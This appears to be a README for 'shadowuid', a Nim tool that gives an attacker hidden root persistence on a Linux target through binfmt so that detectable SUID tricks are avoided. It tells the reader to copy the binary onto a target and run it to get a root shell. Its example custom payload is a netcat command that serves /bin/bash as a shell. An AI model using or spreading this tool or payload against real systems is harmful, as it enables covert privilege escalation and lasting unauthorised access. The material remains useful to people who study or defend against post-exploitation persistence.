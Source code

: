 <div align=center>
<img src=./29FE64AD-A0EF-4A23-8FD3-D646071A74C8.png>
<pre><code><strong>Obtain persistance without using noisy and detectable SUID using <i>binfmt</i> </strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home 🏡 <sup>(persistance)</sup>

* First transfer `shadowuid` on target
* Run it!<br><pre><code>./shadowuid</code></pre>

And that's all, obtaining root shell is obtained and process to obtain it again will be outputted 


##### More granular

You can specify which SUID will trigger your payload. And, obviously, you can also custom the payload.
An example:
```shell
./shadowuid -x --command "nc 127.0.0.2 -e /bin/bash"
```
